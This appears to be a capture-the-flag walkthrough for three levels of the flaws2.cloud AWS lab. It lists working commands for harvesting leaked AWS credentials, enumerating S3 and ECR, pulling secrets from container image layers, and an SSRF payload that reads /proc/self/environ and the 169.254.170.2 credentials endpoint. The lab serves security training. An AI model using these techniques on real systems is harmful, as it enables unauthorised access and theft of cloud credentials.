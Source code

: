 <h1>All 6 challenges for this lab can be found at http://flaws2.cloud/ </h1>

<h3>Level 1 Target: http://level1.flaws2.cloud</h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/a39cf547-d5f9-43ae-8101-e4cf632d9398)

Step 1: Often developers will dump environmental variables when error conditions occur in order to help them debug problems.  To test if this occurs here we will capture the ‘Submit’ request in burp suite and change it to a non-number value (since the website only allows numbers to be submitted).  This will cause an error that leaks aws credentials:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/2db0f698-f866-40f7-bdda-7c565ead2244)

Step 2: Configure a new aws profile with these credentials: aws configure –profile flawscloud
When prompted, enter the access key and secret access key.  

Step 3: Open the profile we just configured for flawscloud (this can be found in ~/.aws/credentials) and add the aws_session_token.  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c558ab12-9e40-41b0-8fd8-7c3eb9626874)

Step 4: Now that we have credentials for an aws account, let’s check what this level1.flaws2.cloud  is: nslookup level1.flaws2.cloud <br>
This returns 52.217.139.141

Step 5: nslookup 52.217.139.141
This returns s3-website-us-east-1.amazonaws.com  <br>

Step 6: Now that we know this is a s3 bucket, let’s try to list the s3 bucket: aws --profile flawscloud s3 ls s3://level1.flaws2.cloud  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1c463ab7-c7c9-4704-bad6-7d11db1756b7)

This returns a list of the s3 bucket. 

Step 7: Copy the secret to our pc: aws --profile flawscloud s3 cp s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html . <br>
Open the secret to solve level1.  

---
<h3>Level 2 Target http://container.target.flaws2.cloud </h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/19d9da2e-a4d0-40de-a4f8-6ff08f60d1f8)

Step 1: Visiting the target shows we need credentials to login:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c0363893-ba65-478f-b322-56d656f43f28)

Step 2: aws --profile flawscloud ecr list-images --repository-name level2

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/4b414d3f-272c-45c6-9efb-3d18eb8fa01d)

Step 3: aws --profile flawscloud sts get-caller-identity

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/af2a981b-db78-4d9c-8d4d-d4f1b84574b6)

Step 4: aws --profile flawscloud ecr list-images --repository-name level2 --registry-id 653711331788

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/650fb84b-33de-4a74-8ddf-b01ba48376db)

Step 5: Step: aws --profile flawscloud ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest |jq '.images[].imageManifest | fromjson'

This has a bunch of different digests.  One of the digests in the output is shown in the below screenshot:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/ee2708d5-fa0d-4b79-b95c-926b96517e72)

Step 6: Check each one of the digests with this command: aws --profile flawscloud ecr get-download-url-for-layer --repository-name level2 --registry-id 653711331788 --layer-digest "sha256:2d73de35b78103fa305bd941424443d520524a050b1e0c78c488646c0f0a0621”

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/98559782-b928-430a-968e-f8fa0098d7f6)

Step 7: Visiting the long url shown downloads a file.  Searching through the file we find credentials. 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/5e01336c-e8dc-4f59-9341-704d7cfb2e0f)

Step 8: Use those credentials to login to http://container.target.flaws2.cloud which completes level 2.  
---
<h3>Level 3 Target: </h3>
![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1d1bf7f8-33d8-4170-a2ef-7ada181f2eef)

Step 1: Seems like the container webserver directs the site to whatever is given after /proxy/.  Based on this, try to access local files: http://container.target.flaws2.cloud/proxy/file:///proc/self/environ 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/79c271c0-4c62-4be8-85ac-f0195618df5e)

Step 2: Visit the path’s found on /proc/self/environ: http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/cd0f067f-f28a-4f8a-ba76-0e697ec1d289

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/04f04468-2815-4f67-9073-4a6a46775bbc)

This path reveals aws credentials.

Step 3: Configure a new profile user with the found aws credentials: aws configure --profile flawscloud2 <br>
Add the credentials when prompted.

Step 4: Add the aws session token manually into this user profile (found in ~/.aws/credentials): 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/e685934c-c56c-4345-a50b-43fbf3ecf2a4)

Step 5: Check if we can find any s3 buckets for this user: aws --profile flawscloud2 s3 ls   

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/3820a3aa-4406-4a9b-9d9b-dee55aa1d478)

Navigate to the endpoint found on the s3 bucket to complete level 3: http://the-end-962b72bjahfm5b4wcktm8t9z4sapemjb.flaws2.cloud/ 

